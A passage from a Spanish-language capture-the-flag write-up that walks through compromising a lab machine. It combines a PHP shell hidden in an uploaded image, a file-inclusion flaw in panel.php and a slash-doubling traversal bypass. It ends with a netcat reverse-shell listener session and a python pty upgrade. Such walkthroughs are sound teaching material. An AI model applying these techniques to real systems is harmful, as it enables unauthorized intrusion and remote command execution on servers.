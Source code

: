 Pues nada, vamos a camuflar un shell en una imagen, lo hago de varias maneras, código guardado como imagen, lo pongo como comment en exif... etc... pero el problema viene al subir la imagen. Como podéis ver en la captura que adjunto con el código de panel.php, nos detecta la extensión del archivo. Nosotros necesitamos que la imagen cargue como php para que funcione el shell por lo que tenemos que guardar la imagen con jpg.php por ejemplo, pero esto no funciona, lo intento de varias maneras, con null byte y todo, pero nada, no funciona. Solo puedo subir y que cargue correctamente si la guardo como .jpg .gif o .png, pero entonces cuando voy a la ruta de la imagen, tan solo carga como imagen y no funciona el código php inyectado.
![panel](images/billu/panel.png)

Revisando cómo funciona el código que tenemos en panel.php me doy cuenta que la parte del continue y load por post es explotable, y podemos hacer include a lo que queramos, incluso se puede hacer directory traversal doblando las '/' para saltarnos el str_replace: (pero tal y como vamos a explotar la máquina, no nos interesa el directory traversal)
![etc](images/billu/etc.png)

Como he dicho, podemos hacer include al fichero que queramos, esto nos ayudará a cargar el código dentro de nuestras imágenes, haciendo pruebas me da por cargar una imagen de las que ya habían subidas en la página por defecto y me encuentro con esto:
![show](images/billu/show2.png)

¡Vaya!  parece que ya hay una imagen con código insertado y carga correctamente el php interno, como soy un vago aprovecho esa imagen, la descargo abro el burpsuite con el intercept activado y subo de nuevo esa imagen como otro usuario, pero cambio el código php que tiene insertado por un shell simple:

![show](images/billu/shell.png)

Lo pruebo, y funciona a la perfección:

![show](images/billu/shell2.png)

Por lo que subo un reverse shell bueno, cargo la página, escucho desde mi máquina y… ¿ya estamos dentro!

![show](images/billu/shell3.png)

```bash
root@kali:~# nc -nvlp 444
listening on [any] 444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.107] 40267
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
 21:33:25 up  4:33,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@indishell:/$ 
```
